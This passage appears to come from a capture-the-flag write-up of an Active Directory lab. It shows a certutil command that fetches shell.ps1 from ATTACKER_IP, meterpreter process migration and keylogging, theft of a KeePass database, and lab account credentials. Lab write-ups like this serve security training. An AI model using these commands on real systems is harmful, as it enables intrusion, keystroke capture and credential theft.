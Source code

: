 * On the victim machine use `certutil` to download the file:
	* `certutil.exe -urlcache -split -f http://ATTACKER_IP/shell.ps1`

Run the `shell.ps1` file in the `evil-winrm` session. Now we have a session in our `meterpreter`.

We will find out what processes are running

```bash
> ps | grep "explorer"
```

In my case there was an explorer process running. If one is not present, it can be created using the following commands in our meterpreter listener:

```bash
> net user trevor.local Password1
> C:\auto-login.ps1 trevor.local Password1 THMSERVER1
> shutdown -r
```

Once that is done, we can migrate to a process of this user, in order to capture his input with a keylogger.

```bash
> migrate 3812
# 3812 was the PID in my case
```

We can now run the keylogger:

```bash
> keyscan_start
```

After a while, we can see if we got anything by using the command:

```bash
> keyscan_dump
# <Shift>Imreallysurenoonewillguessmypassword<CR>
```

We should also download the password file we found earlier, since this password is what it is used for:

```bash
# navigate manually to C:\Users\trevor.local\Documents
> cd ..
...
> download PasswordDatabase.kdbx
```

We can open this file using `Keepass` with our identified password.

Besides the flag that we need to solve this task, another interesting entry is the account `svcServMan` with the corresponding password `Sup3rStr0ngPass!@`.

### Task 6

For this task, we will use the `svcServMan` account to further our AD exploitation. Using Bloodhound, we can see that this user has ownership over a Group Policy Object (GPO), which is applied to the `THMSERVER2` machine.
